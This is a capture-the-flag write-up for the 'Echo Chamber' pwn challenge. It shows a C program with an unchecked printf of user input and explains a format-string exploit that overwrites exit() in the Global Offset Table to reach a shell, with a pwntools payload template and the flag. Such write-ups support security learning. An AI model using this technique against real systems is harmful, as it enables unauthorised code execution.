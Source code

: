 # Echo Chamber
chals.cyberthon22t.ctf.sg:20301

files: [echo_chamber](./echo_chamber) and [main.c](./main.c)

the challenge requires an understanding of C format string exploits and Global Offset Table exploits.

source code as seen:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void setup_IO()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void shell()
{
    system("/bin/sh");
}

void main()
{
    char input[256];

    setup_IO();

    puts(" _______  _     _  __    _  _______  __   __  _______  _______  ______   ");
    puts("|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  ");
    puts("|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  ");
    puts("|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_ ");
    puts("|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |");
    puts("|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |");
    puts("|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|");
    puts("");
    puts("=========================================================================");
    puts("                         Stage 4: Echo Chamber");
    puts("=========================================================================");
    printf("Enter Input => ");

    fgets(input, 255, stdin);

    puts("ECHO:");
    printf(input);

    exit(0);
}
```
A buffer overflow would not be possible because exit() is called before the function returns, so overwriting the rip is useless as the program would never jump to it anyway. 

Since the program has partial RELRO, the GOT would be writable, which is something we can exploit to redirect code execution.

for the exit() function, the program would go from exit@PLT --> exit on the GOT --> actual instruction on the GOT

What we want to do is overwrite the actual instruction on the GOT so that when exit() is called, it isn't actually run and shell() runs instead

we can do this with pwntools, `fmtstr_payload(offset, write)`

The offset can be found with a fuzzing script or manually with "examplestring %p %p %p" or "examplestring %n$p" where n increases

When the format string returns the hex of examplestring, that is where the format string overwrite occurs.

In this case we have `offset = 6`.

Given a binary, pwntools can help extract and use function addresses in the program. <https://docs.pwntools.com/en/stable/elf/elf.html>

```python
# declare the binary
elf = context.binary = ELF("./binary")

# remove the need to hardcode addresses
# we want to replace the GOT address of exit() with shell()
write = {elf.got['exit']:elf.symbols['shell']}
```

We can use pwntools `fmtstr_payload()` function to generate the payload to the connection. With general template as follows:

```python3
p = connect("url", port)
elf = context.binary = ELF("./binary")

offset = n
write = {<addr a>:<addr b>} # where address b will overwrite the one at a
payload = fmtstr_payload(offset, write)
p.sendline(payload)
p.interactive()
```

full script at [exploit.py](/.exploit.py)

`CTFSG{3ch0_4ft3r_m3_d0nt_p455_us3r_1nput_2_pr1ntf}`
